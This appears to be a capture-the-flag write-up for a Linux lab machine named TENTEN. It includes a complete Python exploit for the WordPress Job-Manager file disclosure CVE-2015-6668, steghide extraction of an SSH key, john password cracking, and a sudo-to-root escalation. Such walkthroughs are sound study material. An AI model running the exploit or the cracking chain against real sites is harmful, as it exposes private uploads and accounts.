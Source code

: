 # TENTEN
### Info:
OS: Linux<br>
IP: 10.10.10.10<br>
Difficulty : Medium <br>
### Enumeration:
```nmap -sC -sV -oA nmap 10.10.10.10``` <br>

gives us the results : <br>
![alt text](https://i.imgur.com/AYDx9Ai.png) <br>
As it is WordPress, running WPScan: 
![alt text](https://i.imgur.com/2ikd5QM.png) <br>
Gives us the user and version details.
### Exploitation:
Vulnerability Exploited: CV filename disclosure on Job-Manager WP plugin (CVE-2015-6668) <br>
<b>Exploit.py</b>
```
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017,2019):  
    for i in range(1,13):
        for extension in {'jpeg','png','jpg'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```
We uploaded a png and tried to look for its url by : <br>
![alt text](https://i.imgur.com/0CaRrNz.png)
But injecting PHP with that image failed. <br>
Looking into HackerAccessgranted file and running exploit.py: <br>
![alt text](https://i.imgur.com/moiKxEO.png)
We get an image and running steghide : <br>
![alt text](https://i.imgur.com/vFrPCw9.png)<br>
Running sshng2john on the id_rsa :
![alt text](https://i.imgur.com/GTUmgWQ.png) <br>
and then running john with rockyou gives us the password as `superpassword` : 
![alt text](https://i.imgur.com/MovF3gj.png) <br>
Using this password with ssh as:
![alt text](https://i.imgur.com/ODT0mWe.png) <br>
spawns the shell for us.
### Privilege Escaltion:
Privilege Escalation Vulnerability:<br>
Using `sudo -l` shows us a `/bin/fuckin` which is simple running /bin/bash as root and taking in arguments.
![alt text](https://i.imgur.com/JHMRrq9.png) <br>
and we get root.
### KNOWLEDGE GAIN:
WPScan <br>
sshng2john and john the ripper <br>
CVE 2015-6668
